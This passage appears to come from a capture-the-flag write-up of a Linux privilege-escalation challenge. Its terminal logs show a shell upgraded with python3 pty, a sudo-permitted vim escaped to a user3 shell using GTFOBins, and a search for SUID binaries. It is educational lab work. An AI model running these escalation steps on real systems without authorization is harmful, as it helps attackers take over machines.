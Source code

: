 {% highlight bash %}
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ python -c 'import pty; pty.spawn("/bin/bash")'
bash: python: command not found
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ python3 --version
python3 --version
Python 3.7.3
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ sudo -l
sudo -l
[sudo] password for user2: !!cherry!!

Matching Defaults entries for user2 on unr21-echipe-escalation-7fbfb78995-g6jhp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on
        unr21-echipe-escalation-7fbfb78995-g6jhp:
    (user3) /usr/bin/vim
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$
{% endhighlight %}

[GTFOBins](https://gtfobins.github.io/gtfobins/vim/) contains a pretty long entry for vim - we can use the tricks described there to get a shell as user3.

{% highlight bash %}
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ sudo -u user3 /usr/bin/vim
sudo -u user3 /usr/bin/vim
[vim thingy]
:!/bin/bash
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:/home/user2$ cd ~
cd ~
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ ls
ls
flag2.txt
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ cat flag2.txt
cat flag2.txt
Here s your second flag: ctf{8c4384c8f1b5ae73359592cd5d34b4eeacea1c757989dacce29d637d2f4b25f1}

One more and you are on the top of the mountain!
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ 
{% endhighlight %}

Last flag! Let's continue our enumeration by enumerating the SUID binaries present on the system:

{% highlight bash %}
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ find / -perm -4000 2> /dev/null
<7fbfb78995-g6jhp:~$ find / -perm -4000 2> /dev/null
/bin/su
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/fixpermissions
/usr/bin/sudo
user3@unr21-echipe-escalation-7fbfb78995-g6jhp:~$
{% endhighlight %}
